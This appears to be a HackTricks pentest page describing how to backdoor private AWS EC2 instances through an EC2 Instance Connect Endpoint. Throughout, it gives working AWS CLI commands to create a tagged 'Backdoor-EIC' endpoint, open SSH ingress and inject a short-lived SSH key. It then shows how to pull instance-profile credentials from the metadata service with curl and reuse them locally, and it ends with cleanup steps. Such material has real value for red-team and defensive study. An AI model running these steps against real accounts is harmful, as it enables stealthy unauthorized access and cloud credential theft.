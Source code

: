 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

{{#include ../../../../banners/hacktricks-training.md}}

Abuse EC2 Instance Connect Endpoint (EIC Endpoint) to gain inbound SSH access to private EC2 instances (no public IP/bastion) by:
- Creating an EIC Endpoint inside the target subnet
- Allowing inbound SSH on the target SG from the EIC Endpoint SG
- Injecting a short‑lived SSH public key (valid ~60 seconds) with `ec2-instance-connect:SendSSHPublicKey`
- Opening an EIC tunnel and pivoting to the instance to steal instance profile credentials from IMDS

Impact: stealthy remote access path into private EC2 instances that bypasses bastions and public IP restrictions. The attacker can assume the instance profile and operate in the account.

## Requirements
- Permissions to:
  - `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
  - `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Target Linux instance with SSH server and EC2 Instance Connect enabled (Amazon Linux 2 or Ubuntu 20.04+). Default users: `ec2-user` (AL2) or `ubuntu` (Ubuntu).

## Variables
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```

## Create EIC Endpoint
```bash
aws ec2 create-instance-connect-endpoint \
  --subnet-id "$SUBNET_ID" \
  --security-group-ids "$ENDPOINT_SG_ID" \
  --tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
  --region "$REGION" \
  --query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
  aws ec2 describe-instance-connect-endpoints \
    --instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
    --query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
  grep -q 'create-complete' EIC_STATE && break
  sleep 5
done
```

## Allow traffic from EIC Endpoint to target instance
```bash
aws ec2 authorize-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```

## Inject ephemeral SSH key and open tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
  --instance-id "$INSTANCE_ID" \
  --instance-os-user "$OS_USER" \
  --ssh-public-key file:///tmp/eic.pub \
  --region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
  --instance-id "$INSTANCE_ID" \
  --instance-connect-endpoint-id "$(cat EIC_ID)" \
  --local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```

## Post-exploitation proof (steal instance profile credentials)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```

Example output (truncated):
```json
{
  "Code": "Success",
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "w0G...",
  "Token": "IQoJ...",
  "Expiration": "2025-10-08T04:09:52Z"
}
```

Use the stolen creds locally to verify identity:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```

## Cleanup
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
  --group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
  --source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
  --instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```

> Notes
> - The injected SSH key is only valid for ~60 seconds; send the key right before opening the tunnel/SSH.
> - `OS_USER` must match the AMI (e.g., `ubuntu` for Ubuntu, `ec2-user` for Amazon Linux 2).
{{#include ../../../../banners/hacktricks-training.md}}
